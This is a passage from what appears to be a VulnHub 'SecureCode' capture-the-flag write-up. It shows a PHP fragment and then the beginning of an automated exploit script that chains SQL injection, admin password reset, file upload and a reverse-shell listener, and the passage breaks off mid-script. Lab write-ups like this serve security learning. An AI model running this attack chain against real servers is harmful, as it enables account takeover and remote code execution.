 ```php
        die();
    }

}else{
    $_SESSION['danger']=" Some Fields are missing.";
    header("Location: index.php");
}

?>
```

The logic is the same. Here we got the reverse shell

# Reverse Shell

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-20-VulnHub-SecureCode/2021-11-20-VulnHub-SecureCode%2007:13:00.png)

sqli_auto.py

```py
#!/usr/bin/python3
# Auto SQLINJection - Extract token change pass - change pass - login and get the flag 01 - upload file - reverse shell
# Author: 0x4rt3mis
# Secure Code - VulnHub

import argparse
import requests
import sys
import os
import string
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Let's send the admin token
def sendToken(rhost,user_id):
    if user_id == "1":
        print("[+] Just generate the admin token ! [+]")
        url = "http://%s:80/login/resetPassword.php" %rhost
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username": "admin"}
        r.post(url, headers=headers, data=data, proxies=proxies)
        print("[+] Done ! [+]")
```